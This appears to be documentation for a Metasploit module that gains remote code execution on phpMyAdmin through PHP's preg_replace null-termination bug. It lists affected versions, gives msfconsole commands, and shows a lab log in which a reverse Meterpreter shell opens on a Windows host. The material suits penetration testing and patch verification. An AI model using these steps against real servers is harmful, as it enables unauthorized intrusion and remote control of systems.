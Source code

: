## Description

This module exploits a vulnerability in a PHP's `preg_replace()` function
that is used by phpMyAdmin's replace table feature.


## Vulnerable Application

PHP versions before 5.4.6 allow null termination of the `preg_replace` string parameter.

phpMyAdmin versions 4.6.x (prior to 4.6.3), 4.4.x versions (prior to 4.4.15.7),
and 4.0.x versions (prior to 4.0.10.16) are affected.


## Options

**DATABASE**
This option specifies the database the module will use
when creating a new table as part of the exploit.


## Verification Steps

- [ ] Install vulnerable phpMyAdmin application
- [ ] Create database through phpMyAdmin application
- [ ] `./msfconsole`
- [ ] `use exploit/multi/http/phpmyadmin_null_termination_exec`
- [ ] `set USERNAME <username>`
- [ ] `set PASSWORD <password>`
- [ ] `set DATABASE <database>`
- [ ] `set rhost <rhost>`
- [ ] `run`


## Scenarios

### Tested on Windows 7 x64 running phpMyAdmin 4.3.0 on PHP 5.3.8

```
msf5 > use exploit/multi/http/phpmyadmin_null_termination_exec
msf5 exploit(multi/http/phpmyadmin_null_termination_exec) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 exploit(multi/http/phpmyadmin_null_termination_exec) > set database <database>
database => <database>
msf5 exploit(multi/http/phpmyadmin_null_termination_exec) > run

[*] Started reverse TCP handler on 172.22.222.177:4444 
[*] Sending stage (37775 bytes) to 172.22.222.122
[*] Sleeping before handling stage...
[*] Meterpreter session 2 opened (172.22.222.177:4444 -> 172.22.222.122:49169) at 2018-06-18 07:28:19 -0500
[-] 172.22.222.122:80 - Failed to remove the table 'spkkw'

meterpreter > sysinfo
Computer    : WIN-V438RLMESAE
OS          : Windows NT 6.1 build 7601 (Windows 7 Business Edition Service Pack 1) i586
Meterpreter : php/windows
```
